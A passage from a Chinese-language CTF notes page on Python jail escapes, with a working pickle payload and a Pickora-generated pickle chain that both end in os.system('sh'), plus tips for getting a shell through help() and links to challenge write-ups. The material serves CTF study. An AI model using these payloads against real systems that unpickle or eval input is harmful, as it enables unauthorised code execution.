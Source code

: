   ```py
  b'''c\n__main__\n\x94c\n__builtins__\n\x94b0c\n__getattribute__\n\x940c\nmgk\n\x940c\nup\n\x940h\3N(S"banned"\n]S"__import__"\nc\ntuple\nS"nested"\nh\3d\x86b0h\0N(S"__main__"\nh\1d\x86b0h\3N(S"__import__"\nh\2d\x86b0h\4(S"persistent_load"\nc\n__getitem__\ndb(S"persistent_load"\nPexec\ndb0Pnext(x for x in object.__subclasses__() if 'BuiltinImporter' in str(x)).load_module("os").system("sh")\n.'''
  ```
  ```py
  import sys
  sys.path.insert(0, "./Pickora")
  from pickora import Compiler
  import pickletools
  def unary(result_name, fn_name, arg_name):
      return f"""__builtins__['next'] = {fn_name}
  up._buffers = {arg_name}
  {result_name} = NEXT_BUFFER()
  """
  pk = Compiler().compile(
      f"""
  from x import Unpickler, __main__, __builtins__, up
  BUILD(__main__,__builtins__,None)
  from x import getattr, print, vars, dir, object, type, dict, list
  {unary('val', 'vars', 'dict')}
  BUILD(__main__,val,None)
  from x import values as dictvalues
  {unary('val', 'vars', 'list')}
  BUILD(__main__,val,None)
  from x import pop as listpop
  {unary('val', 'vars', 'list')}
  BUILD(__main__,val,None)
  from x import reverse as listreverse
  {unary('bl', 'dictvalues', '__builtins__')}
  {unary('bl', 'list', 'bl')}
  {unary('_', 'listreverse', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  {unary('val', 'listpop', 'bl')}
  s = 'object.mgk.nested.__import__("os").system("sh")'
  {unary('val', 'val', 's')}
  """
  )
  ```
- 进入python的help()界面后，可以随便输入一个模块（如os）然后输入`:e [filename]`读取文件(默认使用less命令展示文档)。有些时候远程机器开启了socat，这时help函数后在控制台打`!sh`即可getshell。参考 https://zhuanlan.zhihu.com/p/578986988 。help函数还可以用来泄露变量，如进入help函数后使用`__main__`
- [PyMagic](https://github.com/TCP1P/TCP1P-CTF-2023-Challenges/tree/main/Misc/PyMagic)：禁`()'"0123456789 `字符，eval环境无`__builtins__`，但有一个空类
  - 一些有助于构造payload的链接：
    - https://codegolf.stackexchange.com/questions/264291/how-turing-complete-is-your-language
    - https://sopython.com/wiki/Riddles
    - https://github.com/b01lers/b01lers-ctf-2021/tree/main/misc/noparensjail ：覆盖`<`号为system
  - 其他wp： https://github.com/SuperStormer/writeups/tree/master/tcp1pctf_2023/misc/pymagic
- [vampire](https://github.com/SuperStormer/writeups/tree/master/tcp1pctf_2023/misc/vampire)
  - 过滤数字和一些特殊字符。eval环境下有re模块，所以利用re实现rce